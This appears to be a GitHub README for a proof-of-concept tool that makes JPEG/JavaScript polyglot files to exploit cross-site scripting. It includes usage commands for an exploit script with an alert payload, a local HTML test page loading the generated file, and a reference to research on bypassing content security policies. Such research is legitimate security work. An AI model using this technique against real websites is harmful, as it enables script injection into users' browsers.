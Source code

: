 # Exploiting XSS with JPEG Polyglot
## Requirement

- ImageMagick

## Usage

```sh
sudo apt install imagemagick  # in debian

git clone https://github.com/4n86rakam1/xss_injection_in_jpeg.git
cd xss_injection_in_jpeg
python3 exploit.py --payload 'alert(document.domain)' --imagesize 200x200 --output xss.js
```

## Test

1. Confirm to generate JavaScript file for exploiting XSS.
2. Change `src` attribute value in `index.html` to your output filename.

    e.g.

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <script charset="ISO-8859-1" src="./xss.js"></script>
    </head>
    <body></body>
    </html>
    ```

3. Run HTTP Server.

    e.g.

    ```sh
    python3 -m http.server
    ```

4. open http://localhost:8000 in browser.

    ![POC](./poc.png)

tested in Google Chrome `Version 114.0.5735.106 (Official Build) (64-bit)`.

## References

- https://en.wikipedia.org/wiki/JPEG#Syntax_and_structure
- https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs
- https://github.com/corkami/pics/blob/master/binary/JPG.png
